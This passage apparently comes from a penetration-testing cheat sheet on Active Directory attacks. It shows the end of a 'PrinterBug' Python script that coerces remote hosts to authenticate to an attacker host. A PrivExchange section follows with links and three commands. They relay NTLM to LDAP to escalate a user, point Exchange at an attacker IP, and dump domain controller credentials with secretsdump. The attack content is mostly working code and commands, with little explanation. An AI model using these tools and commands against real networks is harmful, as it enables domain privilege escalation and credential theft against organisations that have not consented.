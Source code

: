 ```
    if len(sys.argv)==1:
        parser.print_help()
        sys.exit(1)

    options = parser.parse_args()

    import re

    domain, username, password, remote_name = re.compile('(?:(?:([^/@:]*)/)?([^@:]*)(?::([^@]*))?@)?(.*)').match(
        options.target).groups('')

    #In case the password contains '@'
    if '@' in remote_name:
        password = password + '@' + remote_name.rpartition('@')[0]
        remote_name = remote_name.rpartition('@')[2]

    if domain is None:
        domain = ''

    if password == '' and username != '' and options.hashes is None and options.no_pass is False:
        from getpass import getpass
        password = getpass("Password:")

    remote_names = []
    if options.target_file is not None:
        with open(options.target_file, 'r') as inf:
            for line in inf:
                remote_names.append(line.strip())
    else:
        remote_names.append(remote_name)

    lookup = PrinterBug(username, password, domain, int(options.port), options.hashes, options.attackerhost)
    for remote_name in remote_names:

        try:
            lookup.dump(remote_name)
        except KeyboardInterrupt:
            break
        # except:
            

if __name__ == '__main__':
    main()
```

# PRIVEXCHANGE

- https://github.com/dirkjanm/PrivExchange
- https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/
- https://pentestlab.blog/tag/privexchange/
```
$ ntlmrelayx.py -t ldap://evilcorp.local --escalate-user angela

$ privexchange.py -ah <attacker_ip> exchange1.evilcorp.local -u angela -d evilcorp.local

$ secretsdump.py 'evilcorp.local/angela:Passw0rd1@dc01.evilcorp.local'
```